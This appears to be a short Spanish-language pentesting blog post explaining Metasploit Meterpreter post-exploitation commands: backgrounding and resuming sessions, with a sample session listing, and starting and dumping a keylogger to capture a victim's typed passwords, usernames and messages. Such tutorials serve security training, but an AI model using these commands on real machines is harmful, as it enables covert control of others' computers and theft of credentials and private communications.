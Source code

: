```yaml
---
title: meterpreter
description: 
date: 2015-09-08
lastmod: 2015-09-08
slug: meterpreter
image: "covers/pentesting.png"
tags:
  - meterpreter
categories:
  - Pentesting
---
```



background <Core>
Permite establecer el proceso de la consola meterpreter a un proceso “demonio” con lo que posteriormente permitirá volver al contexto de ejecución anterior a la obtención de la consola, eventualmente se puede volver a activar este proceso por medio del comando sesión:

`meterpreter > background`


```
msf exploit(handler) > sessions -l

Active sessions

===============

Id Type Information Connection



1 meterpreter x86/win32 OWNER\Owner @ OWNER 192.168.1.33:443 -> 192.168.1.34:1091

msf exploit(handler) > sessions -i 1

[\*] Starting interaction with 1…

meterpreter >
```

keyscan <Stdapi User Interface Commands>
Con esta utilidad es posible saber que ha digitado el usuario en su maquina, de esta se obtiene fácilmente, claves, usuarios, direcciones, mensajes, etc.

Su uso:

meterpreter > keyscan_start

Starting the keystroke sniffer…

Con esto se ha iniciado el keylogger, posteriormente para consultar lo que se digitado:
meterpreter > keyscan_dump
